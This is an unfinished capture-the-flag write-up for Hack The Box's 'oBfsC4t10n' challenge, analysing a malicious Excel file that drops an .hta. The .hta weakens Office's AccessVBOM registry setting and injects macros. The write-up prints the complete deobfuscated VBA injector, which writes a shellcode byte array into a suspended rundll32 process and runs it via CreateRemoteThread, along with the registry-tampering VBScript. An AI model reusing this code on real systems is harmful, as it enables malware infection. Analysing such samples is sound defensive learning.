 ```yaml
---
title: HTB write up for the oBfsC4t10n[HARD] challenge
subtitle: security through obscurity?
description: write up for the oBfsC4t10n[HARD] challenge
published: true
datePublished: 1611316432536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackthebox
  - oBfsC4t10n
  - htb
  - security
thumbnailPhoto: /htb/htb-obfuscation.jpg
bannerPhoto: /htb/htb-obfuscation.jpg
canonicalUrl:
---
```


# oBfsC4t10n _[HARD]_ `(WIP)`

This is my Write Up for the "oBfsC4t10n" challenge from Hack The Box.

We are given a _zip file_. after extraction we are presented with an **html** file telling us to download an **excel file**.
The excel file has been included in the html as a **base64 encoded** string, lets just save that info for later `base64.txt` in case we need it.

> decoding `base64.txt` actually gives us a valid excel like file.

After we checked the HTML and deemed the download save lets fetch the excel file.

## Enumeration

Instead of trying to open or analyze the file on our own machine, lets go ahead and upload it to **ANY.RUN**.

> [https://ANY.RUN](https://ANY.RUN) is a **online Sandbox** service that allows you to open various suspicious files or programms to fully analyze what would happen, without the danger.

After Testing the file with **ANY.RUN** we were able to see how the exploit would work and what would be done. So we tested on a **Windows 7** Machine, after opening the file, the exploit imediately startet to run:

![excel-file-report](/htb/obfuscation/file-report.png)

> 1. At first a temp file was created under `C:\Users\admin\AppData\Local\Temp\CVR40EB.tmp.cvr`
> 2. Then a what seems to be `visual basic script` executer was added here: `C:\Users\admin\AppData\Local\Temp\VBE\MSForms.exd`
> 3. followed by a `.hta` file with a funny name..: `C:\Users\admin\AppData\Local\Temp\LwTHLrGh.hta` <-- lemme guess thats the one.
> 4. it then makes use of `mshta.exe` to try and execute the `LwTHLrGh.hta` file.
> 5. then ANY.RUN stops executing the file.

![important files](/htb/obfuscation/file-modifications.png)

I went ahead and _downloaded_ the `MSForms.exd` as well as the `LwTHLrGh.hta` file so we can analyze them further.

## Analyzing `LwTHLrGh.hta`

> .hta is a propriatary file format used by microsoft, its called '**HT**ML **A**pplication' and supports HTML code as well as **Visual Basic** or **JScript**. This format was meant to be used by Internet Explorer.
>
> The **default file-association** for the .hta extension is the Microsoft HTML Application Host (**mshta.exe**). If you have not disabled or changed this file association, in effect the HTA file behaves like an executable when double-clicked. An **HTA runs** as a **fully trusted application** and as a result has a lot **more privileges than a normal HTML** file.

Sounds dangerous, nice!

So lets disect this bitch!

When opening the file we see it has a rather clear structure, a huge VB Script and **even comments**. How nice of the hacker not to obfuscate his code too much, thanks [@0xdf](https://twitter.com/0xdf_). ;-)

```jsx
"<html><head>

<script language="vbscript">

<!-- VB script here -->

</script></head></html>"
```

so naturally, since its practiacally all the code, we strip the vbcode out of the .hta to make it readable.

Thank god we know VB, otherwise this would be a pain from here on now. ;-) Thankfully, since the autor has left some comments, indicating how the attack works, we should be able to cope with it.

The very first thing he does is effectively creating a backup of the AccessVBOM key **if** it has been set before.

```vb
' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = """"
end if
```

> "_Setting AccessVBOM to 1 allows to access the VBA Object Model_"

Then he 'weakens the target' by setting the AccessVBOM to 1, thus enabling all acces to VBA Object Model.

```VB
' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"
```

Then he gets to the juicy part.
To Exploit the Security setting he just turned off, he creates a new Excel Workboo, with macros of course.
He then proceeds to add VBComponents to the Excel, allowing him to add an Assembly Code Module.

```VB
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ... 80 more lines...

```

In his last step this good boy restores the systems registry to its previous state.

```vb
' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
```

> xlmodule.CodeModule.AddFromString contains many obfuscated lines of assembly code, I deobfuscated it by printing it via VBS.

Here is the actualy assembly code payload:

```cpp
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

You can see the Variable myArray seems suspicous, when running the payload in Excel I get an error for 'myArray'

Im stuck here at the moment... I was told i would not need windows..

@ me on twitter [@0x0000005](https://twitter.com/0x0000005)

> This Post is marked as `WIP` and will be updated continously.
